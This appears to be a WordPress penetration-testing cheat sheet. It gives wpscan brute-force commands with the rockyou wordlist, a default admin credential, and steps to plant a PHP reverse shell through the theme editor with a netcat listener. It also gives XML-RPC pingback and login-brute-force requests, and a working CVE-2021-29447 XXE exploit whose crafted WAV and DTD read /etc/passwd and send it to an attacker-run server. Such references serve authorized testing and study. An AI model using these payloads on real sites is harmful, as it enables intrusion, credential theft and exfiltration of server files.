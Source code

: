 ```yaml
---
title: WordPress Pentesting
desc: 
tags: [CMS, Web, WordPress, Wpscan]
alts: []
render_with_liquid: false
---
```


## Automation

**[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}{:rel="noopener"}** is a WordPress security scanner which can brute force credentials.

```sh
# --rua: random user agent
# --http-auth username:password
# -e: enumerate
#  ap: All plugins
#  at: All themes
#  tt: Timthumbs
#  cb: Config backups
#  dbe: Db exports
#  u: User IDs range
#  m: Media IDs range
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

# Specifify username (-U)
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
```

<br />

## Get WordPress Version

```html
<meta name="generator" content="WordPress x.x.x" />
```

<br />

## Common Directories

```sh
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/robots.txt

/wp-admin/
/wp-admin/admin-ajax.php
/wp-admin/upload.php
/wp-content/
/wp-content/uploads/
/wp-includes/

# Private/Draft Posts (WordPress <= 5.2.3) 
/?static=1
```

<br />

## Try to Login with Default Credential

Access to **/wp-login.php** and use the default credential in the login form.

```
admin:password
```

<br />

## PHP Reverse Shell Injection

It's required the **"admin" credentials.**

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

- **Get All Methods**

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>system.listMethods</methodName> 
    <params></params> 
    </methodCall>
    ```

- **Ping Back**

    Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}{:rel="noopener"}** to confirm the results.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?>
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
    <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
    <param><value><string>http://vulnerable.com</string></value></param>
    </params>
    </methodCall>
    ```

- **User Enumeration**

    It’s recommended to use Burp Intruder or Turbo Intruder for brute forcing username/password.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>wp.getUsersBlogs</methodName> 
    <params>
    <param><value>{username}</value></param>
    <param><value>{password}</value></param>
    </params> 
    </methodCall>
    ```

<br />

## XXE (CVE-2021-29447)

If you have a normal user credential, upload the exploitable media (.WAV) with XXE and reveal sensitive information.  
First off, create **"exploit.wav"**.

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<local-ip>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav
```

Next create **"exploit.dtd"**.

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<local-ip>:9001/?p=%file;'>">
```

Then start PHP server in local machine.

```sh
php -S 0.0.0.0:9001
```

In target website, login as normal user and go to **"Media"**, click **"Add New"**.  
Upload the **"exploit.wav"**.  
After that, open the WAV file. You should see the information is revealed in your console. Decode it.